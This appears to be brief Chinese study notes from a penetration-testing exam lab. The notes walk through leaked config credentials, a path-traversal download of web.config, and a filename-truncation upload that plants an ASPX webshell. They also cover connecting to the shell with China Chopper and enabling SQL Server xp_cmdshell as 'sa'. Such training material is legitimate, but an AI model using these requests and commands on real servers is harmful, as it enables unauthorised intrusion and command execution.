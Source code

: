 port:24689

御剑扫描配置弱点：

第一次考试：web.config.bak: 数据库连接帐户和密码：id=down

pass:down

第二次考试：任意文件下载漏洞：robots.txt--&gt;/admin/file\_down.aspx

http://192.168.1.144:24689/admin/file\_down.asp?file=../../web.config

数据库连接工具：navicat:dbo--表：oa登录用户名密码：

登录--第一个key:

第二个key获取：观察

长文件名截断：

aspx一句话木马：D:\安全工具\网站木马\webshell\aspx

aspx一句话木马小集：.net

上传长文件名：aaaaabbbbbcccc.aspx.jpg

截断：13：aaaaabbbbbccc

          aaaaabbb.aspx.jpg

文件名：636698554980486250-aaaaabbb.aspx 

上传路径：\upfile\affix\

http://192.168.1.144:24689/upfile/affix/636698554980486250-aaaaabbb.aspx 

菜刀连接：chopper---右键--新建连接--连接口：z

第三个key:数据管理员权限：SA



上传拿到webshell:老的配置：

web.config.bak.2017-12-12:

user:sa

pass:cisp-pte@sa

数据库连接工具：navicat:sa连接

dbo--查询--新建查询：

必要操作

1.启动xp\_cmdshell

exec sp\_configure 'show advanced options',1;

reconfigure;

exec sp\_configure 'xp\_cmdshell',1;

reconfigure
